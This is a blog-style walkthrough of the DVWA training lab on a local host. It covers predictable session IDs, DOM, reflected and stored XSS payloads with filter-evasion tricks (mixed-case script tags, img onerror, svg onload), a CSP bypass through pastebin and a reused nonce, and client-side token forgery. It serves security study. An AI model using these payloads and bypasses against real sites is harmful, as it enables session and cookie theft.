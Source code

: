 ```yaml
---
layout: post
title: DVWA - Part 3
categories: [Vulnerable Web Applications]
tags: [DVWA, OWASP ZAP, weak session ids, XSS, CSP, JavaScript]

---
```

## Weak session IDs

We can predict some session IDs to steal information or carry out some malicious operations.

LOW - MEDIUM - HIGH:

LOW: We see that the dvwaSession cookie increases one unit each time we send a request. *$_SESSION['last_session_id']++;* . It has no difficulty in getting IDs.

MEDIUM: In this case the dvwaSession does not start with 1, but we can see that it takes as value the timestamp *$cookie_value = time();* , therefore it is also easy to guess.

HIGH: *$cookie_value = md5($_SESSION['last_session_id_high']); $_SESSION['last_session_id_high']++;*
The first dvwaSession is the hash c4ca4238a0b923820dcc509a6f75849b and [cracking](https://crackstation.net/) it, we can see that the answer is 1. If we send other request, the second value is 2. The next is 3...

## XSS (DOM)

We can send malicious code to get any cookies or session tokens held by the browser. 

LOW - MEDIUM - HIGH:

LOW: The URL is 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English and we can modify it. For example:
  - 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=random
  - 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<.script.>alert(“hello”)<./script.>
  - 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<.script.>alert(document.cookie)<./script.>

MEDIUM: The medium level do not allow: “<.script.>”, so we can use:
https://127.0.0.1/DVWA/vulnerabilities/xss_d/?default=English<./select.><.img src=x onerror=alert(document.cookie).>

HIGH: 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English#<.script.>alert(document.cookie)<./script.>
Then, selecting other language we can see a pop-up displaying the cookie info.

## XSS Reflected

It allows the manipulation of the functions of a web application and the activation of malicious scripts. Here we can use a javascript function to exploit this. 

- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.h1>hello<.h1>
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.font color=”blue”>hello<./font>

LOW - MEDIUM - HIGH:

LOW: https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.script>alert(document.cookie)<./script>

MEDIUM: The script replace "<.script" with blank space. So we can change one or more letters of the word "script" to uppercase.
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.Script>alert(document.cookie)<./Script>
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.scRipt>alert(document.cookie)<./scRipt>
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.SCriPt>alert(document.cookie)<./SCriPt>

HIGH: We can't use <.script>.

- <.img src=nosource onerror=alert(document.cookie)>
- <.svg/onload=alert(document.cookie)>
- <.body onload=alert(document.cookie)>

## XSS Stored

When we send data, it is stored by the server, and then it will be displayed permanently. 

LOW - MEDIUM - HIGH:

LOW: Use <.script>. <.script>alert(document.cookie)<./script>

MEDIUM: Looking at the code, we see this: $message=htmlspecialchars($message); 

htmlspecialchars(): Convert special characters into HTML entities. For example:
- < less than: converted to ‘&.lt;’
- .> more than: converted to ‘&.gt;’

That's why we can't use the Message field. The only option is to put our script in the Name field, but we have two drawbacks:
- Max lenght of 10 characters.
- Replace script with a blank space.

We use <.script>alert(document.cookie)<./script> with one or more letters of "script" in capital letters: <Script>alert(document.cookie)<./Script>

We can modify the max lenght with the inspect tool.

![]({{ site.baseurl }}/images/DVWA-7.JPG)

Or sending a post request like this:

![]({{ site.baseurl }}/images/DVWA-8.JPG)

HIGH: We use the Name field, but in this case we can't use 'script' in any of its variants.

<.img src=nosource onerror=alert(document.cookie)>
<.svg/onload=alert(document.cookie)>
<.body onload=alert(document.cookie)>


## CSP Bypass 

CSP is a built-in browser technology which helps protect from attacks such as cross-site scripting (XSS). It lists and describes paths and sources, from which the browser can safely load resources.

LOW - MEDIUM - HIGH:

LOW: Looking at the script, we see that it allows scripts (or in Response headers-> Content-Security-Policy) from:
- https://pastebin.com
- example.com
- code.jquery.com
- https://ssl.google-analytics.com 

We also see a commented url in the script that we can use: https://pastebin.com/raw/R570EE00. We can insert that url or create our own in Raw format (https:/pastebin.com/raw/...), for example: alert("hey");

MEDIUM: We see the nonce attribute, it enables you to “whitelist” certain inline script. 
- <.script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(document.cookie);<./script> 
- <.script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">console.log(document.cookie);<./script> 

HIGH: The URL is http://127.0.0.1/DVWA/vulnerabilities/csp/source/jsonp.php?callback=solveSum and we can modify it like this:
- http://127.0.0.1/DVWA/vulnerabilities/csp/source/jsonp.php?callback=alert(“hello”);


## JavaScript

We need to guess the correct token for "success".

LOW - MEDIUM:

LOW: When you enter "success", the token becomes invalid, and the same token appears every time. Looking at the sorce code we see: generate_token(); and if we enter it in console, we can get a valid token. Another option is to get the hash of "success"using this [tool](https://www.md5hashgenerator.com/).

MEDIUM: In the script <.script src="/vulnerabilities/javascript/source/medium.js">, we can see this: 
```
setTimeout (function () {
  do_elsesomething ('XX');
}, 300);
function do_elsesomething (e) {
  document.getElementById ('token').value = do_something (
    e + document.getElementById ('phrase').value + 'XX'
  );
}
```
The token is always the same: XXeMegnahCXX → XX+Reverse_ChangeMe+XX
So we try this token: XxsseccusXX.
